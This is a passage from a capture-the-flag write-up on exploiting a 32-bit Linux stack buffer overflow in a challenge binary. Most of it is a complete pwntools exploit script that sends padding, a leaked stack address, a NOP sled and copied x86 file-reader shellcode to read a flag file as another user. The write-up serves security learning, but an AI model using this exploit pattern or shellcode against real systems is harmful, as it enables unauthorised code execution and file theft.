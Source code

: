 There is two solutions. 

1. Use a shellcode that is capable of re-opening STDIN. (Hard)
2. Use a shellcode that does not rely on INPUT/OUTPUT interaction. (Easy)

As we are hackers, we tend to go for the easiest way. So for this write-up I will simply use a FILE READER shellcode.

# Final exploit code

This is my exploit code to solve this problem:

```python
#!/usr/bin/env python

from pwn import *
p = process("sudo -u pwned1 /home/pwn1/Baby")
offset = 32

# File-reader shellcode (Linux - x86)
# from: http://shell-storm.org/shellcode/files/shellcode-73.php
shellcode =  "\x31\xc0\x31\xdb\x31\xc9\x31\xd2"
shellcode += "\xeb\x32\x5b\xb0\x05\x31\xc9\xcd"
shellcode += "\x80\x89\xc6\xeb\x06\xb0\x01\x31"
shellcode += "\xdb\xcd\x80\x89\xf3\xb0\x03\x83"
shellcode += "\xec\x01\x8d\x0c\x24\xb2\x01\xcd"
shellcode += "\x80\x31\xdb\x39\xc3\x74\xe6\xb0"
shellcode += "\x04\xb3\x01\xb2\x01\xcd\x80\x83"
shellcode += "\xc4\x01\xeb\xdf\xe8\xc9\xff\xff"
shellcode += "\xff"
shellcode += "/home/pwn1/flag.txt";

# exploit code
p.recvuntil("DEBUG: ")
stack_addr = int(p.recv(10), 16) + 36

info("Stack address: {0}".format(hex(stack_addr)))
payload = "A" * offset + p32(stack_addr) + "\x90" * 32 + shellcode

print hexdump(payload)
info("Sending {0} bytes as payload ...".format(len(payload)))

p.sendline(payload)

p.interactive() # Get content of file and exit.
```

Adapt this code to work in your computer, as the challenge box is not longer available.

I adapted to my Kali box, and it worked like a charm:
